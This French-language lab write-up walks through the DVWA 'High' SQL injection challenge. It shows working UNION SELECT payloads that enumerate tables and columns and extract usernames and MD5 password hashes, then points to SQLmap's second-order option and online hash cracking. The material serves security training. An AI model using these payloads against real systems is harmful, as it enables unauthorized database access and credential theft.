





# Niveau "High"

Un changement au niveau de l’interface pour ce niveau « High ». Une pop-up est disponible pour insérer l’objet de la recherche et le résultat s’affiche sur la fenêtre principale :



L'injection du caractère `"'"` retourne une erreur générique :



Le fait que l'erreur soit générique n'est pas vraiment gênant, car cela indique bien que le caractère spécial semble être traité comme du code et non comme faisant partie de la donnée. L'injection semble donc être toujours possible :

```sql
6' UNION SELECT 1,2 -- 
```



Récupération des noms des tables :

```sql
'6' UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema = 'dvwa' -- 
```



Récupération des noms des colonnes :

```sql
'6' UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE table_schema = 'dvwa' -- 
```



Puis finalement des noms et empreintes des mots de passe des utilisateurs :

```sql
'6' UNION SELECT user,password FROM dvwa.users --  
```


L'erreur générique n'augmente pas réellement la difficulté du challenge par rapport au niveau "Low" mais la présence d'une seconde fenêtre peut empêcher les outils automatisés de fonctionner.

L'injection présente ici est une injection nommée "second ordre", et sans l'indiquer explicitement à l'outil il peut ne pas réussir à l'exploiter.


Sous `SQLmap` il est possible d'utiliser l'option `--second-order` pour ce type d'injection


Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

.png>)
